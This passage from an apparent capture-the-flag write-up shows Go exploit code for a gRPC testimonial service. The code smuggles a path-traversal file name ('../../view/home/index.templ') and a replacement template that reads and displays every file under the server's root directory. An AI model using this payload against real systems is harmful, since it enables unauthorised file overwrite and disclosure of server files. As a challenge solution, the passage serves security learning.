```go
	}
	defer conn.Close()

	// Use the connection to create a new client
	client := pb.NewRickyServiceClient(conn)

	// Create a TestimonialSubmission message
	testimonial := &pb.TestimonialSubmission{
		Customer:    "../../view/home/index.templ",
		Testimonial: "package home\n\nimport (\n\t\"os\"\n)\n\ntempl Index() {\n\t@layout.App(true) {\n<div class=\"container\">\n  <section>\n      <div class=\"row\">\n          @Testimonials()\n      </div>\n  </section>\n</div>\n}\n\nfunc GetTestimonials() []string {\n\tfsys := os.DirFS(\"/\")\n\tfiles, err := fs.ReadDir(fsys, \".\")\n\tif err != nil {\n\t\treturn []string{fmt.Sprintf(\"Error reading testimonials: %v\", err)}\n\t}\n\tvar res []string\n\tfor _, file := range files {\n\t\tfileContent, _ := fs.ReadFile(fsys, file.Name())\n\t\tres = append(res, string(fileContent))\n\t}\n\treturn res\n}\n\ntempl Testimonials() {\n  for _, item := range GetTestimonials() {\n    <div>\n        <p>{item}</p>\n    </div>\n  }\n}",
	}

	// Call the SubmitTestimonial method
	ctx := context.Background()
	_, err = client.SubmitTestimonial(ctx, testimonial)
	if err != nil {
		log.Fatalf("Could not submit testimonial: %v", err)
	}
}
```

As you can see, in the **testimonial parameter** the entire content of the **index.templ** template is sent, to overwrite this file and display the content of the files in the / path.

Before running the script, we change the path of the `pb package` with the path of the pb folder of the challenge, in my case I copied it to the path `/usr/local/go/src/pb` to call it directly

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/CA2024/Pasted%20image%2020240313194915.png)

